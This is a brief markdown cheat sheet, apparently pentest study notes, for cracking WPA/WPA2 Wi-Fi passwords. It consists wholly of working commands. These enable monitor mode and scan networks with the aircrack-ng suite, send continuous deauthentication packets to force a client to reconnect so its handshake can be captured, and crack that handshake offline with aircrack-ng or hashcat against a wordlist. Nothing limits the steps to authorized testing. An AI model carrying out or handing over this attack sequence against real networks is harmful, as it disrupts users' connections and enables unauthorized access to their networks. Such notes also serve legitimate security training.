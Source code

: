 # WPA&WPA2

- Put interface in monitor mode
    - `sudo airmon-ng start wlan0`
- Scan for networks
    - `sudo airodump-ng wlan0mon`
- Scan on specific AP and channel with output file
    - `sudo airodump-ng --bssid <BSSID> -c <channel> -w <output_file> wlan0mon`
- Send DEAUTH packets to client to capture handshakes
    - `sudo aireplay-ng -a <BSSID> -c <Client MAC> -0 0 wlan0mon`
- Cracking with aircrack-ng
    - `sudo aircrack-ng <output_file>.cap -e <ESSID>` *note this is ESSID is AP name*
    - `sudo aircrack-ng <output_file>.cap -e <ESSID> -w /usr/share/john/password.lst`
- Cracking with hashcat
    - Convert .cap to hashcat hc22000
        - `hcxpcapngtool -o <output_file>.hc22000 <output_file>.cap`
    - Run hashcat
        - `hashcat -m 22000 <output_file>.hc22000 -w /usr/share/john/password.lst`